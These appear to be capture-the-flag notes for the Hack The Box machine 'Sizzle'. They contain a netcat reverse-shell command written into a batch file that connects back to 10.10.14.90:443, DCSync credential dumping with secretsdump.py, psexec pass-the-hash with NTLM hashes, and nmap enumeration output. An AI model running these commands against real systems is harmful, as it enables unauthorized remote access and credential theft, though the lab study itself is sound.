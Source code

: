 ```bash

## powershell encode
echo '\windows\system32\spool\drivers\color\n.exe -e cmd.exe 10.10.14.90 443' | out-file -encoding ASCII  clean.bat

## or append. 
echo ""  | out-file -encoding ASCII -append clean.bat
echo '\windows\system32\spool\drivers\color\n.exe -e cmd.exe 10.10.14.90 443' | out-file -encoding ASCII -append clean.bat

# mrlky dcsync
secretsdump.py -hashes :bceef4f6fe9c026d1d8dec8dce48adef htb.local/mrlky@sizzle.htb.local
psexec.py -hashes :f6b7160bfc91823792e0ac3a162c9267 administrator@$tip

```







# Enum

## nmap scan



```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: 2022-12-16T12:19:13+00:00; 0s from scanner time.
| tls-alpn:
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_http-title: Site doesn't have a title (text/html).
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
|_ssl-date: 2022-12-16T12:19:13+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2021-02-11T12:59:51
|_Not valid after:  2022-02-11T12:59:51
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
|_ssl-date: 2022-12-16T12:19:13+00:00; 0s from scanner time.
```